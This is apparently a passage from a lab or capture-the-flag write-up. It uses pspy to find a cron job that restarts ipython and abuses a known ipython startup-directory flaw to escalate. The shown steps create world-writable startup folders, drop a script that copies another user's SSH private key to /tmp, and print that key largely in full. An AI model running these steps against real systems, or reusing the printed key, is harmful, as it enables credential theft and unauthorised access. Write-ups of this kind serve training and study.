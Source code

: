 Running pspy64 there's a cronjob running /root/c.sh which does something with redis
```bash
2022/10/16 19:55:06 CMD: UID=0    PID=2137   | perl -ne s/\((\d+)\)/print " $1"/ge
2022/10/16 19:55:06 CMD: UID=0    PID=2136   | /bin/bash /root/c.sh
2022/10/16 19:55:06 CMD: UID=0    PID=2135   | /bin/bash /root/c.sh
2022/10/16 19:55:06 CMD: UID=0    PID=2138   | pidof redis-server
2022/10/16 19:55:06 CMD: UID=0    PID=2141   | /sbin/init
```

Another cronjob is killing ipython, moving to `/opt/scripts_review` and running ipython again
```bash
2022/10/16 19:56:01 CMD: UID=0    PID=2151   | /usr/sbin/CRON -f
2022/10/16 19:56:01 CMD: UID=1001 PID=2152   | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython
2022/10/16 19:56:01 CMD: UID=1001 PID=2153   | /usr/bin/python3 /usr/local/bin/ipython
```

There's a privesc for ipython as described here:  
[https://github.com/advisories/GHSA-pq7m-3gw7-gq5x](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x)  

So we can create a startup directory in there 
```bash
mkdir -m 777 /opt/scripts_review/profile_default 
mkdir -m 777 /opt/scripts_review/profile_default/startup
```

And drop a simple python script that will copy dan's key to tmp, as we have been able to observe that the .ssh folder exists for him
```python
#!/usr/bin/python3

with open("/home/dan_smith/.ssh/id_rsa", "r") as f:
    key = f.read()

with open("/tmp/dan_rsa", "w") as f:
    f.write(key)
```

```bash
cat dan_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvWFkzEQw9usImnZ7ZAzefm34r+54C9vbjymNl4pwxNJPaNSHbdWO
+/+OPh0/KiPg70GdaFWhgm8qEfFXLEXUbnSMkiB7JbC3fCfDCGUYmp9QiiQC0xiFeaSbvZ
FwA4NCZouzAW1W/ZXe60LaAXVAlEIbuGOVcNrVfh+XyXDFvEyre5BWNARQSarV5CGXk6ku
sjib5U7vdKXASeoPSHmWzFismokfYy8Oyupd8y1WXA4jczt9qKUgBetVUDiai1ckFBePWl
4G3yqQ2ghuHhDPBC+lCl3mMf1XJ7Jgm3sa+EuRPZFDCUiTCSxA8LsuYrWAwCtxJga31zWx
FHAVThRwfKb4Qh2l9rXGtK6G05+DXWj+OAe/Q34gCMgFG4h3mPw7tRz2plTRBQfgLcrvVD
oQtePOEc/XuVff+kQH7PU9J1c0F/hC7gbklm2bA8YTNlnCQ2Z2Z+HSzeEXD5rXtCA69F4E
u1FCodLROALNPgrAM4LgMbD3xaW5BqZWrm24uP/lAAAFiPY2n2r2Np9qAAAAB3NzaC1yc2
EAAAGBAL1hZMxEMPbrCJp2e2QM3n5t+K/ueAvb248pjZeKcMTST2jUh23Vjvv/jj4dPyoj
4O9BnWhVoYJvKhHxVyxF1G50jJIgeyWwt3wnwwhlGJqfUIokAtMYhXmkm72RcAODQmaLsw
FtVv2V3utC2gF1QJRCG7hjlXDa1X4fl8lwxbxMq3uQVjQEUEmq1eQhl5OpLrI4m+VO73Sl
...............................SNIP...................................
2AwUg3cT7kmKUdAvBHsj20uwv8a1ezFQNN5vxTnQPQLTiZoUIR7FDTOkQ0W3hfvjznKXTM
wictz9NZYWpEZQAuSX2QJgBJc1WNOtrgJscNauv7MOtZYclqKJShDd/NHUGPnNasHiPjtN
CRr7thGmZ6G9yEnXKkjZJ1Neh5Gfx31fQBaBd4XyVFsvUSphjNAAAAwQD4Yntc2zAbNSt6
GhNb4pHYwMTPwV4DoXDk+wIKmU7qs94cn4o33PAA7ClZ3ddVt9FTkqIrIkKQNXLQIVI7EY
Jg2H102ohz1lPWC9aLRFCDFz3bgBKluiS3N2SFbkGiQHZoT93qn612b+VOgX1qGjx1lZ/H
I152QStTwcFPlJ0Wu6YIBcEq4Rc+iFqqQDq0z0MWhOHYvpcsycXk/hIlUhJNpExIs7TUKU
SJyDK0JWt2oKPVhGA62iGGx2+cnGIoROcAAADBAMMvzNfUfamB1hdLrBS/9R+zEoOLUxbE
SENrA1qkplhN/wPta/wDX0v9hX9i+2ygYSicVp6CtXpd9KPsG0JvERiVNbwWxD3gXcm0BE
wMtlVDb4WN1SG5Cpyx9ZhkdU+t0gZ225YYNiyWob3IaZYWVkNkeijRD+ijEY4rN41hiHlW
HPDeHZn0yt8fTeFAm+Ny4+8+dLXMlZM5quPoa0zBbxzMZWpSI9E6j6rPWs2sJmBBEKVLQs
tfJMvuTgb3NhHvUwAAAAtyb290QHNoYXJlZAECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```